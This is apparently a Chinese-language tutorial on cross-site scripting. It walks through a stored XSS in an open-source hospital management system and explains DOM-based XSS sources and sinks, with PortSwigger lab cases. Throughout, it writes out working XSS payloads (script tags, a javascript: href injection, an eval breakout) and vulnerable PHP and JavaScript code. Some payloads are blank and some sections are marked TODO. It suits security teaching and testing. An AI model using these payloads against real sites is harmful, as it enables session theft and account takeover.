

这是存在漏洞的[医院管理系统](https://github.com/kishan0725/Hospital-Management-System)项目。该项目几年前上传，此后从未更新。它目前功能齐全。不幸的是，一个存储型跨站脚本攻击（XSS）漏洞已被发现，并被标记为 [CVE-2021-38757](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-38757) ，并且已发布了[利用程序 ](https://packetstormsecurity.com/files/163869/Hospital-Management-System-Cross-Site-Scripting.html)，但截至撰写本文时，该应用程序仍未进行修复。

要利用此漏洞，攻击者只需点击“联系人”，填写姓名、邮箱、电话号码，并在消息字段中提交 payload 即可。诸如 `<script>alert("Simple XSS")</script> `之类的简单操作也能成功利用。

通过联系页面发送的任何消息都会在管理员登录时显示。



漏洞存在于 [contact.php](https://github.com/kishan0725/Hospital-Management-System/blob/master/contact.php) 文件中。虽然代码运行正常，但并不安全。如下面的代码所示，用户提交的消息未经任何处理就直接保存到了数据库表中。

```php
<?php 
$con=mysqli_connect("localhost","root","","myhmsdb");
if(isset($_POST['btnSubmit']))
{
    $name = $_POST['txtName'];
    $email = $_POST['txtEmail'];
    $contact = $_POST['txtPhone'];
    $message = $_POST['txtMsg'];

    $query="insert into contact(name,email,contact,message) values('$name','$email','$contact','$message');";

//...
}
```

## 查找和测试存储型 XSS 漏洞

手动测试存储型 XSS 漏洞可能颇具挑战性。您需要测试所有相关的“入口点”，攻击者可控的数据可以通过这些入口点进入应用程序的处理过程，以及所有可能在应用程序响应中出现该数据的“出口点”。

应用程序处理的入口点包括：

* URL 查询字符串和消息正文中的参数或其他数据。
* URL 文件路径。
* 与反射型 XSS 相关的 HTTP 请求标头可能无法被利用。
* 攻击者不通过网站本身的输入框，而是走外部渠道把数据传入目标应用的所有途径（也就是「带外」途径）。
  这些外部渠道是否存在，完全看这个应用本身有什么功能：
  网页邮箱应用，会读取、处理别人发来的邮件内容；
  展示推特动态的应用，会处理第三方发的推文内容；
  新闻聚合应用，会加载、展示其他网站的内容。

存储型 XSS 攻击的出口点是所有可能的 HTTP 响应，这些响应在任何情况下返回给任何类型的应用程序用户。

测试存储型 XSS 漏洞的第一步是找到入口点和出口点之间的连接，即提交到入口点的数据会从出口点发出。这之所以具有挑战性，是因为：

* 原则上，提交到任何入口点的数据都可以从任何出口点发出。例如，用户提供的显示名称可能会出现在只有部分应用程序用户可见的模糊审计日志中。
* 应用程序当前存储的数据通常很容易因应用程序内执行的其他操作而被覆盖。例如，搜索功能可能会显示最近搜索的列表，而这些列表很快就会随着用户执行其他搜索而被覆盖。

要全面识别入口点和出口点之间的链接，需要分别测试每个排列，将特定值提交到入口点，直接导航到出口点，并判断该值是否出现在那里。然而，这种方法在页面较多的应用程序中并不实用。

相反，更现实的方法是系统地处理数据入口点，向每个入口点提交一个特定的值，并监控应用程序的响应，以检测提交值出现的情况。可以特别关注相关的应用程序功能，例如博客文章的评论。当在响应中观察到提交的值时，您需要确定数据是否确实存储在不同的请求中，而不是简单地反映在即时响应中。

当您确定了应用程序处理过程中入口点和出口点之间的链接后，需要对每个链接进行专门测试，以检测是否存在存储型 XSS 漏洞。这涉及确定存储数据在响应中出现的上下文，并测试适用于该上下文的合适候选 XSS 有效载荷。此时，测试方法与查找反射型 XSS 漏洞的方法大致相同。

# DOM-based XSS

DOM 型跨站脚本攻击（DOM-based XSS）的成因在于前端 JavaScript 代码不安全地处理了用户可控的数据。与反射型和存储型 XSS 依赖服务器端响应不同，DOM 型 XSS 的整个数据流转和漏洞触发过程完全在客户端浏览器中完成。

其核心逻辑建立在两个关键的抽象概念之上：**Source（数据源）** 与 **Sink（执行接收器）**。

**Source (数据源):** 指前端 JavaScript 能够读取的、且可被外部攻击者操控的输入接口。

- **典型属性:** 最常见的 Source 为 `window.location` 对象。攻击者可以通过构造恶意的 URL 查询字符串（Query String，`?` 之后的内容）或片段标识符（Fragment/Hash，`#` 之后的内容）来注入 Payload。
- **特性:** 位于 URL Fragment（`#`）之后的数据在 HTTP 请求标准中不会被发送至后端服务器。因此，基于 Hash 的 DOM XSS 攻击流量在服务端的网络日志或 WAF（Web 应用防火墙）中是不可见的。

**Sink (执行接收器):** 指能够将接收到的字符串数据解析为可执行代码，或将其作为 HTML 元素直接渲染到 DOM 树中的 JavaScript 函数或 DOM 对象属性。

- **代码执行类 Sink:** `eval()`、`setTimeout()`（当首个参数传入字符串而非函数时）、`setInterval()`。
- **DOM 渲染类 Sink:** `innerHTML`、`outerHTML`、`document.write()`、`document.writeln()`

> 有关源和接收器之间的污点流的详细解释，请参阅[基于 DOM 的漏洞](https://portswigger.net/web-security/dom-based)页面。

来查看一个存在 DOM XSS 漏洞的 Web 应用程序示例。我们可以尝试添加一个 test 项，并发现该 Web 应用程序与我们之前使用的 To-Do List Web 应用程序类似：



但是，如果我们打开 Firefox 开发者工具中的 Network 选项卡，并重新添加 test 项，我们会发现没有发出任何 HTTP 请求：



我们看到 URL 中的输入参数使用了井号 # 来表示我们添加的项目，这意味着这是一个客户端参数，完全在浏览器端处理。这表明输入内容是通过客户端 JavaScript 处理的，根本不会到达后端；因此，这是一个 DOM-based XSS 。

此外，若按下快捷键 CTRL+U 查看页面源码，会发现我们输入的测试字符串并未出现在源码中。这是因为点击 “添加” 按钮后，JavaScript 代码才会动态更新页面 —— 而浏览器获取页面源码的时机早于 JS 更新页面，因此基础页面源码中不会显示我们的输入；且刷新页面后，输入内容也不会保留（即非持久型）。我们仍可按下快捷键 CTRL+SHIFT+C，通过网页审查工具（Web Inspector）查看渲染后的页面源码。



我们可以查看 To-Do Web 应用程序的源代码，并检查 script.js ，我们会发现 Source 取自 task= 参数：

```javascript
var pos = document.URL.indexOf("task=");
var task = document.URL.substring(pos + 5, document.URL.length);

```

紧接着这些代码行下方，我们可以看到页面使用 innerHTML 函数将 task 变量写入 todo DOM：

```javascript
document.getElementById("todo").innerHTML = "<b>Next Task:</b> " + decodeURIComponent(task);
```

所以，我们可以看到我们可以控制输入，而输出没有经过清理，因此该页面容易受到 DOM XSS 攻击。

如果我们尝试之前使用过的 XSS 攻击载荷，会发现它无法执行。这是因为 innerHTML 函数出于安全考虑，不允许在其内部使用 <script> 标签。不过，我们使用的许多其他 XSS 攻击载荷并不包含 <script> 标签，例如以下 XSS 攻击载荷：

```html

```

上面的代码创建了一个新的 HTML 图片对象，该对象有一个 onerror 属性，当找不到图片时可以执行 JavaScript 代码。因此，由于我们提供了一个空的图片链接（ "" ），我们的代码应该始终能够执行，而无需使用 <script> 标签：



## 查找和测试

### 测试html sinks

要在 HTML 接收器中测试 DOM XSS，请将随机的字母数字字符串放入源（例如 location.search ），然后使用开发者工具检查 HTML 并找到该字符串出现的位置。请注意，浏览器的“查看源代码”选项不适用于 DOM XSS 测试，因为它不考虑 JavaScript 对 HTML 执行的更改。在 Chrome 的开发者工具中，您可以使用 Control+F （在 MacOS 上为 Command+F ）在 DOM 中搜索该字符串。

对于字符串在 DOM 中出现的每个位置，您都需要识别上下文。基于此上下文，您需要优化输入以了解其处理方式。例如，如果您的字符串出现在双引号属性中，则尝试在字符串中注入双引号，看看能否突破该属性的限制。

请注意，不同浏览器在 URL 编码方面的行为有所不同。Chrome、Firefox 和 Safari 会对 location.search 和 location.hash 进行 URL 编码，而 IE11 和 Microsoft Edge（Chromium 之前的版本）则不会对这些来源进行 URL 编码。如果您的数据在处理之前就进行了 URL 编码，那么 XSS 攻击就不太可能奏效。

### 测试 JavaScript execution sinks(执行接收器)

测试 JavaScript 执行接收器是否包含基于 DOM 的 XSS 漏洞会稍微困难一些。由于这些接收器的输入不一定会出现在 DOM 中的任何位置，因此你无法搜索它。你需要使用 JavaScript 调试器来确定你的输入是否以及如何发送到接收器。

测试基于 DOM 的 XSS 漏洞中的 JavaScript 执行接收器（sink）难度稍高。对于这类接收器，你的输入未必会出现在 DOM 的任何位置，因此无法通过搜索找到输入内容。相反，你需要借助 JavaScript 调试器来判断输入是否被传递至接收器、以及传递方式。

对于每个潜在的数据源（source）（如 location 对象），首先需在页面的 JavaScript 代码中找到引用该数据源的位置。在 Chrome 开发者工具中，可按下 Control+Shift+F（macOS 系统为 Command+Alt+F），在页面所有 JavaScript 代码中搜索该数据源。

找到读取数据源的位置后，可通过 JavaScript 调试器添加断点，追踪数据源的值是如何被使用的。你可能会发现数据源的值被赋值给了其他变量 —— 若出现这种情况，需再次使用搜索功能追踪这些变量，查看其是否被传递至接收器。当发现某个接收器被赋值了源自该数据源的数据时，可在调试器中悬停至该变量，查看其被传入接收器之前的取值，以此检查变量值。随后与测试 HTML 接收器的方式一致，你需要调整输入内容，验证是否能成功实施 XSS 攻击。

### 利用不同的源和接收器来利用 DOM XSS

原则上，若存在可执行的数据流路径，使得数据能够从数据源（source）传播至接收器（sink），则该网站存在基于 DOM 的跨站脚本（XSS）漏洞。实际场景中，不同的数据源和接收器具备不同的属性与行为，这会影响漏洞的可利用性，并决定所需采用的攻击技巧。此外，网站的脚本可能会对数据执行验证或其他处理操作，在尝试利用漏洞时必须适配这些处理逻辑。存在多种与基于 DOM 的漏洞相关的接收器，详情请参考这个[列表](https://portswigger.net/web-security/cross-site-scripting/dom-based#which-sinks-can-lead-to-dom-xss-vulnerabilities)。

#### document.write()

document.write() 是一个典型的 HTML 渲染类 Sink，其在处理注入的恶意载荷时具有特定的解析行为。

document.write() 方法的作用是动态地向打开的 HTML 文档数据流中写入内容。其安全层面的核心特性在于：原生支持 <script> 标签的同步执行。

当浏览器解析执行 document.write() 传入的字符串时，若字符串中包含完整的 <script> 标签结构，浏览器的 HTML 解析器会立即挂起当前的 DOM 构建过程，转而下载（若有 src 属性）并执行该脚本块。一旦脚本执行完毕，解析器再恢复先前的文档构建。这一特性使得针对 document.write() 的 Payload 构造通常较为直接。

```javascript
// 假设 Source (如 location.hash) 获取到的恶意输入被传递至此处
var userInput = "<script>alert(document.domain)</script>";

// 目标代码将污点数据传入 document.write Sink
document.write('用户输入的内容是：' + userInput);
```

**执行机制：**

1. **数据拼接：** 污点数据 `<script>alert(document.domain)</script>` 与合法字符串合并。
2. **文档写入：** 合并后的字符串流被写入当前页面的 DOM 结构中。
3. **脚本触发：** HTML 解析器识别到动态写入的 `<script>` 标签，立刻将控制权交由 JavaScript 引擎，从而在当前页面的安全上下文中执行 `alert(document.domain)`。

但请注意，在某些情况下，写入 document.write 内容会包含一些上下文，你需要在漏洞利用过程中加以考虑。例如，在使用 JavaScript 有效载荷之前，你可能需要关闭一些现有元素。

#### innerHTML

innerHTML 是最常见的前端渲染类 Sink 之一。与 document.write 不同，现代浏览器针对 innerHTML 属性在底层实现了特定的安全规范，导致传统的漏洞利用载荷在此上下文中失效。

根据 HTML5 标准规范，当通过 `innerHTML` 属性向 DOM 树动态插入字符串时，浏览器的 HTML 解析器会解析该字符串并构建相应的 DOM 节点。然而，出于安全考量，标准明确规定：**通过 `innerHTML` 插入的 `<script>` 标签不会被执行**。

此外，现代浏览器（如基于 Chromium 或 Gecko 内核的浏览器）在解析层面进一步收紧了策略，阻止了通过 `innerHTML` 注入的 `<svg onload=...>` 等部分旨在 DOM 节点解析即刻触发的事件处理器。此类限制导致纯脚本标签和特定矢量图事件无法作为该 Sink 的有效执行载荷。

为规避上述安全限制，漏洞利用的核心策略转变为：注入常规的非脚本 HTML 元素，并滥用该元素在生命周期中必然触发的 DOM 事件（如资源加载失败、资源加载成功、焦点获取等）来间接执行 JavaScript 代码。

常用的替代标签包括 （图像元素）、<iframe>（内联框架）或 <video> 等多媒体元素。

```javascript
// 假设目标元素为页面中的某个 div 容器
var element = document.getElementById("target-container");

// 注入 Payload 至 innerHTML Sink
element.innerHTML = '...  ...';
```

**执行机制：**

1. **DOM 节点构建：** 浏览器的 HTML 解析器接管传入的字符串，识别出合法的 `` 标签，并将其作为子节点挂载到 `target-container` 元素内部。
2. **资源获取尝试：** `` 节点被实例化后，浏览器渲染引擎立即尝试发起网络请求，获取 `src` 属性指定的图像资源（此处为相对路径的 `1`）。
3. **异常触发 (Event Firing)：** 由于 `1` 并非有效的图像文件路径，且通常无法返回正确的图像 MIME 类型，该资源加载操作必定失败。
4. **恶意代码执行：** 资源的加载失败触发了该 DOM 节点原生的 `error` 事件。浏览器事件循环（Event Loop）随之调用通过 `onerror` 属性绑定的事件处理程序，最终在当前文档的上下文中成功执行 `alert(document.domain)`。

### 第三方依赖项中的源和接收器

#### jQuery 中的 DOM XSS

如果正在使用诸如 jQuery 之类的 JavaScript 库，需留意那些能够修改页面上 DOM 元素的危险接收点（sink）。例如，jQuery 的 attr() 函数可修改 DOM 元素的属性。如果数据从用户可控的来源（如 URL）读取，然后传递给 attr() 函数，那么攻击者就有可能操纵传入的值来触发 XSS 攻击。
举例来说，以下这段 JavaScript 代码会利用 URL 中的数据修改锚点（anchor）元素的 href 属性：

```javascript
// 目标代码逻辑解析
$(function() {
    // 1. 数据提取 (Source): 
    // 利用 URLSearchParams 接口从当前 URL 的查询字符串 (window.location.search) 中提取 'returnUrl' 参数的值。
    var untrustedData = (new URLSearchParams(window.location.search)).get('returnUrl');

    // 2. 属性覆盖 (Sink): 
    // 定位 ID 为 'backLink' 的 DOM 元素，并使用提取到的污点数据直接覆盖其 'href' 属性。
    $('#backLink').attr("href", untrustedData);
});
```

代码段在数据提取与属性赋值之间，缺失了关键的数据校验（如 URL 协议白名单校验）或编码转义环节。

基于上述代码缺陷，可通过构造包含恶意伪协议的 URL 参数实施漏洞利用。

注入 Payload：` ?returnUrl=javascript:alert(document.domain)`

**执行与触发流程：**

1. **参数传递：** 当目标页面加载带有上述查询参数的 URL 时，JavaScript 引擎执行 jQuery 脚本。
2. **DOM 变异：** `attr()` 函数将 `#backLink` 元素的 HTML 结构动态修改为：

   ```html
   <a id="backLink" href="javascript:alert(document.domain)">...</a>
   ```
3. **交互触发：** 与 `document.write` 等直接渲染执行的 Sink 不同，此类通过操作 `href` 属性构成的 DOM XSS 属于**交互型触发**。注入的恶意脚本处于休眠状态，直至受害者在页面中主动点击该修改后的“返回”链接，浏览器底层事件处理器才会拦截常规的页面跳转，转而调用 JavaScript 引擎执行伪协议后的代码。

需要注意的另一个潜在漏洞是 jQuery 的 $() 选择器函数，它可用于将恶意对象注入 DOM。

TODO

### DOM XSS 与反射和存储XSS相结合

#### 反射型 DOM XSS

在标准的 DOM 型跨站脚本攻击中，污点数据（Taint Data）的提取与执行完全在客户端浏览器内部完成，无需服务器参与。然而，实际复杂的 Web 架构中存在一种复合型漏洞模式：反射型 DOM XSS。此类漏洞结合了反射型 XSS 的服务端回显特性与 DOM 型 XSS 的客户端执行特性。

纯 DOM XSS 与反射型 DOM XSS 的架构差异

1. **纯 DOM XSS (Pure DOM XSS):**
   - **数据源 (Source):** 直接来源于浏览器暴露的客户端接口（如 `window.location.hash`、`document.referrer`）。
   - **执行链路:** 客户端脚本读取 Source -> 客户端脚本直接写入 Sink。服务端处理过程不涉及恶意载荷的解析。
2. **反射型 DOM XSS (Reflected DOM XSS):**
   - **数据源 (Source):** 数据首先通过 HTTP 请求发送至服务端，服务端将其反射（回显）在 HTTP 响应的 HTML 源码中。其回显位置通常看似安全（例如作为隐藏表单 `<input>` 的 `value`，或注入到 `<script>` 标签内的 JavaScript 字符串字面量中）。
   - **执行链路:** 客户端接收响应 -> 客户端脚本从页面 DOM 结构或 JavaScript 变量中提取该反射数据 -> 客户端脚本进行二次处理，并最终将其传入危险的 Sink（执行接收器）。

以下解析该类漏洞底层的触发逻辑：

```javascript
// 阶段 1：服务端处理与响应渲染
// 假设服务端将 URL 中的输入直接反射到页面的 JavaScript 变量中
var serverReflectedData = "[USER_INPUT]"; 

// 阶段 2：客户端前端脚本提取与执行 (Sink 触发)
// 页面原生 JavaScript 提取该变量，并以不安全的方式处理
eval('var parsedData = "' + serverReflectedData + '"');
```

若向服务端提交 Payload `test";alert(document.domain);//` 服务端可能仅将其作为纯文本渲染，由于处于双引号内部，在第一阶段并未破坏 HTML 结构，因此规避了传统的反射型 XSS 防御检测。

此时，客户端接收到的 HTML 源码中，变量被赋值如下：

```javascript
var serverReflectedData = "test\";alert(document.domain);//";
```

随后，前端 JavaScript 引擎执行至 eval() 函数时，将进行第二层代码动态解析。此时传递给 eval() 的实际字符串参数变为：

```javascript
'var parsedData = "test";alert(document.domain);//"'
```

#### 存储型 DOM XSS

存储型 DOM XSS 属于一种高危的复合型漏洞架构。该漏洞模型结合了传统存储型 XSS 的持久化威胁特征与 DOM 型 XSS 的客户端执行特性。其核心安全缺陷在于：服务端未能有效净化输入数据即将其持久化存储，且客户端前端脚本在提取这些数据时，缺乏二次校验，直接将其传入危险的执行接收器（Sink）。

存储型 DOM XSS 的攻击链路通常跨越多个 HTTP 请求与响应周期，其生命周期可拆解为以下三个阶段：

1. **持久化存储阶段 (Storage Phase):** 恶意数据（Payload）通过 HTTP 请求（如发帖、提交评论、更新个人资料等业务接口）发送至服务端。服务端将其长期保存于数据库或文件系统中。
2. **数据下发阶段 (Retrieval Phase):** 当用户（受害者）访问特定页面时，前端代码通过初始 HTML 加载或后续的异步 API 请求（如 AJAX/Fetch 获取 JSON 数据），将包含恶意载荷的数据从服务端提取至客户端内存中。
3. **前端 Sink 触发阶段 (Execution Phase):** 客户端 JavaScript 引擎读取这些被视为“可信”的服务端返回数据，并在处理过程中（如动态渲染页面元素、执行数据反序列化）将其传递给 `innerHTML`、`eval()` 或 `setTimeout()` 等危险 Sink，最终导致恶意脚本执行。

区分传统存储型 XSS 与存储型 DOM XSS 的关键在于**恶意代码被解析和激活的发生层级**：

- **传统存储型 XSS (Traditional Stored XSS):** 服务端在构建 HTTP 响应时，将未编码的恶意数据直接拼接进 HTML 源码。浏览器的 HTML 解析器在初始加载页面时直接解析并执行该恶意脚本。
- **存储型 DOM XSS (Stored DOM XSS):** 服务端可能以安全的格式（如 JSON 字符串，或经过 HTML 实体编码的字符串）下发数据，初始 HTML 源码本身不包含可执行的脚本结构。漏洞完全由客户端 JavaScript 动态提取该数据并错误地传入执行接收器所引发。

以下通过一个基于前后端分离架构的评论加载功能，解析该漏洞的底层执行逻辑。

```javascript
// 阶段 2：数据下发阶段 (通过 API 获取存储在后端的评论数据)
fetch('/api/get_comments')
    .then(response => response.json())
    .then(data => {
        // data.comments 包含从数据库取出的用户输入，假设其中包含 Payload
        renderComments(data.comments);
    });

function renderComments(commentsArray) {
    let container = document.getElementById('comments-section');
  
    commentsArray.forEach(comment => {
        // 阶段 3：前端 Sink 触发阶段
        // 缺陷：未对 comment.content 进行清洗，直接使用 innerHTML 渲染
        let commentDiv = document.createElement('div');
        commentDiv.innerHTML = '<b>User:</b> ' + comment.content;
        container.appendChild(commentDiv);
    });
}
```

假设攻击者在阶段 1 提交了以下 Payload 并成功存储入库： ``

- **API 响应状态：** 服务端 API 返回格式良好的 JSON 数据：`{"comments": [{"content": ""}]}`。此过程未破坏 JSON 结构，网络层表现正常。
- **引擎执行逻辑：**
  1. 前端 `fetch` 回调函数将 JSON 字符串反序列化为 JavaScript 对象。
  2. 遍历评论数组时，提取出包含 Payload 的 `comment.content` 属性。
  3. 污点数据被直接赋给 `commentDiv.innerHTML`。此时，浏览器的 HTML 解析器介入，尝试构建 `` 标签。
  4. 由于 `src=x` 指向无效资源，触发 `onerror` 事件，执行 JavaScript 引擎级别的 `alert(document.cookie)`，完成会话凭证窃取。

## 案例1

实验：[select 元素内利用 location.search 数据源注入至 document.write 接收器的基于 DOM 的 XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink-inside-select-element)

此实验室包含股票查询功能 document.write 的一个基于 DOM 的跨站点脚本漏洞。该漏洞利用 JavaScript 的 document.write 函数将数据写入页面。document.write 函数会使用 location.search 中的数据进行调用，您可以使用网站 URL 进行控制。这些数据包含在 select 元素中。为了解决这个实验，执行跨站点脚本攻击，突破选择元素并调用 alert 函数。

## 案例2

实验：[注入至 innerHTML 接收器中的基于 DOM 的 XSS（利用 location.search 数据源）](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-innerhtml-sink)

本实验的博客搜索功能中存在一个基于 DOM 的跨站脚本（XSS）漏洞。该功能使用innerHTML赋值操作来修改一个div元素的 HTML 内容，而赋值的数据来源于location.search（URL 查询字符串）。
要完成本实验，你需要实施一次跨站脚本攻击，触发调用alert()函数（即弹出警示框）。

TODO

## 案例3

实验：[利用location.search数据源在 jQuery 锚点href属性接收点中触发 DOM 型 XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-href-attribute-sink)

本实验的提交反馈页面中存在一个基于 DOM 的跨站脚本（XSS）漏洞。该页面使用 jQuery 库的$选择器函数查找锚点（<a>）元素，并通过location.search（URL 查询字符串）中的数据修改该元素的href属性。
要完成本实验，你需要让页面中的 “返回（back）” 链接触发执行alert(document.cookie)（即弹出当前页面的 Cookie 信息）。

TODO

## 案例4

[Lab: Reflected DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-reflected)

本实验演示了一个反射型 DOM 漏洞。当服务器端应用程序处理来自请求的数据并在响应中回显该数据时，就会发生反射型 DOM 漏洞。然后，页面上的脚本会以不安全的方式处理反射数据，最终将其写入危险的接收器。

为了解决这个实验，创建一个调用 alert() 函数的注入。

TODO

## 案例5

[Lab: Stored DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-stored)

此实验演示了博客评论功能中一个存储型 DOM 漏洞。要解决此实验，请利用此漏洞调用 alert() 函数。

TODO

# 不同上下文中的XSS

在测试反射型和存储型 XSS 时，一项关键任务是识别 XSS 上下文：

* 响应中攻击者可控制的数据出现的位置。
* 应用程序对该数据执行的任何输入验证或其他处理。

基于这些详细信息，您可以选择一个或多个候选 XSS 有效负载，并测试它们是否有效。

> 我们构建了一个全面的 [XSS 速查表 ](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)，帮助您测试 Web 应用程序和过滤器。您可以按事件和标签进行筛选，并查看哪些向量需要用户交互。该速查表还包含 AngularJS 沙盒逃逸和许多其他部分，可帮助您进行 XSS 研究。

## HTML 标签之间的 XSS

当 XSS 上下文是 HTML 标签之间的文本时，需要引入一些旨在触发 JavaScript 执行的新 HTML 标签。

执行 JavaScript 的一些有用方法是：

```javascript
<script>alert(document.domain)</script>

```

### 案例1

实验：[在不进行任何编码的情况下，将反射型 XSS 漏洞引入 HTML 上下文。](https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded)

### 案例2

实验：[将 XSS 存储到 HTML 上下文中，无需任何编码](https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded)

该实验室包含评论功能中的存储跨站点脚本漏洞。为了解决这个实验，请提交一条评论，当博客文章被查看时调用 alert 功能。

